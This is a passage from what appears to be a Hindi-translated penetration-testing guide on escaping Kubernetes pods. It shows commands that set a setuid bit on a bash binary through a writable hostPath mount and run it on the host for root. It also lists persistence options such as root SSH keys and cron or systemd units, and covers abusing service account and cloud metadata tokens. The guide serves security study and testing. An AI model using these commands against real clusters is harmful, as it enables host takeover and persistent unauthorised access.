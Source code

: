 ```bash
chmod 6777 "$MOUNT/suidbash"
ls -l "$MOUNT/suidbash"
# -rwsrwsrwx 1 root root 1234376 ... /var/www/html/survey/suidbash
```
root पाने के लिए host पर Execute करें:
```bash
# On the host, locate the mapped path (e.g., from the Pod spec .spec.volumes[].hostPath.path or by prior enumeration)
# Example host path: /opt/limesurvey/suidbash
ls -l /opt/limesurvey/suidbash
/opt/limesurvey/suidbash -p   # -p preserves effective UID 0 in bash
```
Notes and troubleshooting:
- यदि host mount में nosuid है, तो setuid bits को अनदेखा कर दिया जाएगा। होस्ट पर mount विकल्पों की जाँच करें (cat /proc/mounts | grep <mountpoint>) और nosuid देखें।
- यदि आप host execution path हासिल नहीं कर पाते हैं, तो समान writable mounts का दुरुपयोग करके host पर अन्य persistence/priv-esc artifacts लिखे जा सकते हैं अगर mapped directory security-critical हो (उदा., यदि mount /root/.ssh में map करता है तो root SSH key जोड़ना, यदि /etc में map करता है तो cron/systemd unit गिराना, host द्वारा execute किए जाने वाले PATH में root-owned binary को replace करना, आदि)। इसकी feasibility पूरी तरह इस बात पर निर्भर करती है कि कौन सा path mount किया गया है।
- यह technique plain Docker bind mounts के साथ भी काम करता है; Kubernetes में यह आमतौर पर hostPath volume (readOnly: false) या गलत तरीके से scoped subPath होता है।

### Abusing Kubernetes Privileges

जैसा कि सेक्शन के बारे में समझाया गया है **kubernetes enumeration**:

{{#ref}}
kubernetes-enumeration.md
{{#endref}}

आमतौर पर pods के अंदर **service account token** के साथ चलाए जाते हैं। इस service account पर कुछ **privileges attached to it** हो सकते हैं जिन्हें आप **abuse** करके अन्य pods में **move** कर सकते हैं या यहाँ तक कि cluster के अंदर configured nodes पर **escape** कर सकते हैं। किस तरह, देखें:

{{#ref}}
abusing-roles-clusterroles-in-kubernetes/
{{#endref}}

### Abusing Cloud Privileges

If the pod is run inside a **cloud environment** you might be able to l**eak a token from the metadata endpoint** and escalate privileges using it.

## कमजोर नेटवर्क सेवाओं की खोज

As you are inside the Kubernetes environment, if you cannot escalate privileges abusing the current pods privileges and you cannot escape from the container, you should **संभावित कमजोर सेवाओं की खोज करें।**

### Services

**इस उद्देश्य के लिए, आप kubernetes environment की सभी services प्राप्त करने की कोशिश कर सकते हैं:**
```
kubectl get svc --all-namespaces
```
डिफ़ॉल्ट रूप से, Kubernetes एक फ्लैट नेटवर्किंग स्कीमा उपयोग करता है, जिसका मतलब है **क्लस्टर के भीतर कोई भी pod/service एक-दूसरे से बात कर सकता है**। क्लस्टर के भीतर की **namespaces** पर **डिफ़ॉल्ट रूप से कोई नेटवर्क सुरक्षा प्रतिबंध नहीं होते**। namespace के अंदर कोई भी व्यक्ति अन्य namespaces से बातचीत कर सकता है।
